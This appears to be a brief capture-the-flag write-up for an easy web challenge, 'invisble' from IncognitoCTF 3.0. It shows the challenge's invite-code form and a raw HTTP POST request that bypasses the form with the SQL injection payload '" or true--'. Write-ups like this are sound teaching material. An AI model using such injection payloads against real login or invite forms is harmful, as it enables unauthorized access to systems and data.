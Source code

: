 # IncognitoCTF 3.0 - invisble
#### about : 
- Type: web 
- Level: easy 
- Points : 100
- Website : http://142.93.209.130:8000

in the webiste i found in the source code this form : 

```html
<div class='center'>
<form action="/invite" method="POST">
  <label for="code">Invite code :</label><br>
  <input type="text" id="code" name="code" placeholder="invite code"><br><br>
  <input type="submit" value="Submit">
</form>
</div>
```

so what i tried first was some sql injection
and after some fuzzing with burpsuite i found the login with **" or true** payload  : 

```
POST /invite HTTP/1.1
Host: 142.93.209.130:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://142.93.209.130:8000/
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Origin: http://142.93.209.130:8000
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

code=%22%20or%20true--
```